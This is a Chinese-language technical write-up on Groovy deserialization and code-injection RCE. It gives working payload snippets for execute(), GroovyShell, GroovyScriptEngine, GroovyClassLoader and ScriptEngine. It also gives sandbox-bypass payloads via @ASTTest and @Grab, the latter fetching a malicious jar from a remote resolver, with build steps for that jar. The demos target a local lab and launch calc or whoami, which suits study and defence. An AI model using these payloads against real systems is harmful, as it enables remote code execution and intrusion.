 ## 反序列化

- Groovy_POC.java

  ```java
  AnnotationInvocationHandler.readObject()
      Map.entrySet() (Proxy)
          ConversionHandler.invoke()
              ConvertedClosure.invokeCustom()
  		        MethodClosure.call()
                      ProcessGroovyMethods.execute()
  ```

## 代码注入

如果外部可控输入Groovy代码或者外部可上传一个恶意的Groovy脚本，且程序并未对输入的Groovy代码进行有效的过滤，那么会导致恶意的Groovy代码注入，从而RCE

![image-20220419175302032](image-20220419175302032.png)

运行这样一个Groovy代码，将会弹出一个计算器，成功执行了命令(def是用来定义标识符)

```java
//其他执行命令执行的方法
Runtime.getRuntime().exec("calc")
"calc".execute()
'calc'.execute()
"${"calc".execute()}"
"${'calc'.execute()}"

//回显的方式
println "whoami".execute().text
println 'whoami'.execute().text
println "${"whoami".execute().text}"
println "${'whoami'.execute().text}"
def cmd = "whoami";
println "${cmd.execute().text}"
```

### MethodClosure

看看他的构造方法

![image-20220419213413728](image-20220419213413728.png)

可以发现他传入了一个对象，第二个是对象的方法，通过其中的docall方法进行调用

但是`docall`方法是`protected`修饰的，不能直接调用，调用它的父类`Closure`的call方法间接调用

```java
package ysoserial.vulndemo;

import org.codehaus.groovy.runtime.MethodClosure;

public class GroovyInject {
    public static void main(String[] args) {
//        MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(), "exec");
//        methodClosure.call("calc");
        MethodClosure methodClosure = new MethodClosure("calc", "execute");
        methodClosure.call();
    }
}
```

### GroovyShell

类中的`evaluate`方法有多个重载，支持有`GroovyCodeSource String File URI 等参数类型，能够通过Groovy代码写入或者本地加载或者远程加载Groovy脚本来执行命令

其中的`parse`方法就是或者对应的Groovy脚本，之后调用run方法进行执行代码内容

```java
//直接执行Groovy代码
GroovyShell shell = new GroovyShell();
shell.evaluate("\'calc\'.execute()");
```

```java
//通过加载本地脚本
GroovyShell shell = new GroovyShell();
Script script = shell.parse(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));
script.run();

GroovyShell shell = new GroovyShell();
shell.evaluate(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));
```

```java
//通过加载远程脚本
GroovyShell shell = new GroovyShell();
shell.evaluate(new URI("http://127.0.0.1:8888/GroovyTest.groovy"));
```

这里的url和Groovy代码同样可以通过GroovyCodeSource封装之后执行`evalute`执行代码

### GroovyScriptEngine

GroovyScriptEngine可从指定的位置（文件系统、URL、数据库等等）加载Groovy脚本，并且随着脚本变化而重新加载它们

其构造方法存在重载的方式，可以指定远程Url/根文件位置/ClassLoader

之后通过使用run方法回显，有两个重载，一个是传入脚本名和对应的参数，另一个是脚本名和Binding对象

```java
//通过传入根路径之后调用对应的脚本
GroovyScriptEngine scriptEngine = new GroovyScriptEngine("src/main/java/ysoserial/vulndemo");
scriptEngine.run("GroovyTest.groovy", "");
```

```java
//通过调用远程url之后调用特定脚本
GroovyScriptEngine scriptEngine = new GroovyScriptEngine("http://127.0.0.1:8888/");
scriptEngine.run("GroovyTest.groovy", "");
```

```java
//通过Binding加载
GroovyScriptEngine scriptEngine = new GroovyScriptEngine("");
scriptEngine.run("src/main/java/ysoserial/vulndemo/GroovyTest.groovy", new Binding());
```

### GroovyClassLoader

GroovyClassLoader是一个定制的类装载器，负责解释加载Java类中用到的Groovy类，重写了loadClass和defineClass方法

`parseClass` 可以直接从文件或者字符串中获取groovy类

```java
//从文件中获取Groovy类
GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
Class aClass = groovyClassLoader.parseClass(new File("src/main/java/ysoserial/vulndemo/GroovyTest.groovy"));
GroovyObject object = (GroovyObject) aClass.newInstance();
object.invokeMethod("main", "");
```

```java
//从文本中获取Groovy类
GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
Class aClass = groovyClassLoader.parseClass("class GroovyTest {\n" +
"    static void main(args){\n" +
"        println \"${'whoami'.execute().text}\"\n" +
"\n" +
"    }\n" +
"}");
GroovyObject groovyObject = (GroovyObject) aClass.newInstance();
groovyObject.invokeMethod("main", "");
```

### ScriptEngine

在ScriptEngine中，支持名为“groovy”的引擎，可用来执行Groovy代码。这点和在SpEL表达式注入漏洞中讲到的同样是利用ScriptEngine支持JS引擎从而实现绕过达到RCE是一样的

```java
ScriptEngine scriptEngine = new ScriptEngineManager().getEngineByName("groovy");
System.out.println(scriptEngine.eval("\"whoami\".execute().text"));
```

### bypass方法

#### 反射+字符串拼接

#### Groovy沙箱绕过

Groovy代码注入都是注入了execute()函数，从而能够成功执行Groovy代码，这是因为不是在Jenkins中执行即没有Groovy沙箱的限制。但是在存在Groovy沙箱即只进行AST解析无调用或限制execute()函数的情况下就需要用到其他技巧了

##### @AST注解执行断言

利用AST注解能够执行断言从而实现代码执行

```java
//@AST注解执行断言
this.class.classLoader.parseClass("""
    @groovy.transform.ASTTest(value={
        assert Runtime.getRuntime().exec("calc")
    })
    def x
""")
```

![image-20220420165003323](image-20220420165003323.png)

##### @Grab注解加载远程恶意类

Grape是Groovy内建的一个动态Jar依赖管理程序，允许开发者动态引入不在ClassPath中的函式库

需要导入`ivy`依赖，不然会报错(你可以试试)

```java
<dependency>
    <groupId>org.apache.ivy</groupId>
    <artifactId>ivy</artifactId>
    <version>2.4.0</version>
</dependency>
```

###### POC

```java
//@Grab注解加载远程恶意类
this.class.classLoader.parseClass("""
    @GrabConfig(disableChecksums=true)
    @GrabResolver(name="Poc", root="http://127.0.0.1:8888/")
    @Grab(group="Poc", module="EvilJar", version="0")
    import java.lang.String
""");
```

这里的加载依赖会看本地仓库是否有，如果没有就从root服务器的`group/module/version`目录里面下载`EvilJar-0.jar`文件，默认存放在`~/.groovy/grapes`目录下

之后使用`processOtherServices`方法处理其他服务，比如这里的name

![image-20220420201627587](image-20220420201627587.png)

我们就需要在服务器上编写一个恶意类

```java
//Poc.java
public class Poc{
    Poc() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

```java
//编译成.class文件
javac Poc.java
//创建目录
mkdir -p META-INF/services/
//在org.codehaus.groovy.plugins.Runners中写入加载的类名Poc
echo Poc > META-INF/services/org.codehaus.groovy.plugins.Runners
//将.class文件打包成jar包
jar cvf module-version.jar Poc.class META-INF/
//创建放jar包的目录
mkdir -p group/module/version/
//将jar包复制到该目录下
mv module-version.jar group/module/version
//之后开启http服务
```